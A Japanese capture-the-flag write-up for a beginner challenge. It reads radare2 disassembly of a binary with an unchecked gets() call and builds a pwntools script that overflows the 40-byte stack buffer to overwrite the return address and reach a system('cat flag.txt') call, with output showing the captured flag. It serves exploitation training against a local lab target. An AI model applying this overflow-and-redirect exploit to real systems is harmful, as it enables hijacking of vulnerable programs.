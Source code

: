 # second 

## access

```
nc localhost 4102
```

main関数が定義されているので読む  
read_flagとかいうめっちゃそれっぽいやつもある

```Assembly:main

[0x004010f0]> pdf @main
            ; DATA XREF from entry0 @ 0x401111
┌ 53: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           0x004011f4      f30f1efa       endbr64
│           0x004011f8      55             push rbp
│           0x004011f9      4889e5         mov rbp, rsp
│           0x004011fc      4883ec20       sub rsp, 0x20
│           0x00401200      488d3d0a0e00.  lea rdi, str.buf            ; 0x402011 ; "buf <" ; const char *format
│           0x00401207      b800000000     mov eax, 0
│           0x0040120c      e88ffeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401211      488d45e0       lea rax, [s]
│           0x00401215      4889c7         mov rdi, rax                ; char *s
│           0x00401218      b800000000     mov eax, 0
│           0x0040121d      e89efeffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00401222      b800000000     mov eax, 0
│           0x00401227      c9             leave
└           0x00401228      c3             ret

```

rbp-0x20までスタック領域が確保されている  
変数が1つ、[s]がある

buf <を出力してる  
gets関数で入力を[s]に読み込んでる 
くらいのことがわかる

read_flag関数を読む
```Assembly:read_flag

[0x004011d6]> pdf
┌ 30: sym.read_flag ();
│           0x004011d6      f30f1efa       endbr64
│           0x004011da      55             push rbp
│           0x004011db      4889e5         mov rbp, rsp
│           0x004011de      488d3d1f0e00.  lea rdi, str.cat_flag.txt   ; 0x402004 ; "cat flag.txt" ; const char *string
│           0x004011e5      e8a6feffff     call sym.imp.system         ; int system(const char *string)
│           0x004011ea      bf00000000     mov edi, 0                  ; int status
└           0x004011ef      e8ecfeffff     call sym.imp.exit           ; void exit(int status)


```

``system("cat flag.txt")``するだけ  
この関数を呼び出せばflagに近づける...かもしれない

read_flag関数を起動しようにも呼び出す部分がない...

main関数の変数は、
```
; var char *s @ rbp-0x20
```
[s]はrbp-0x20のようにスタックが確保されている  
[s]への入力を使ってmain関数のリターンアドレスを ~~read_flag関数のアドレス~~ ``system("cat flag.txt")``する命令のアドレスに書き換えれば起動できるかもしれない

バイトオーダはリトルエンディアンでスタック1段の大きさが8バイトであり、それに合わせてペイロードを作る

```python:solve.py
from pwn import *

io = remote('localhost', 4102)
io.sendline("a"*40 + "\xde\x11\x40\x00\x00\x00\x00\x00")
io.interactive()
```

```
[vagrant@fedora32 second]$ python solve.py
[+] Opening connection to localhost on port 4102: Done
[*] Switching to interactive mode
buf <flag{Y0u_c4n_0v3rwr1t3_r3turn_4ddr}
[*] Got EOF while reading in interactive
```

できた!
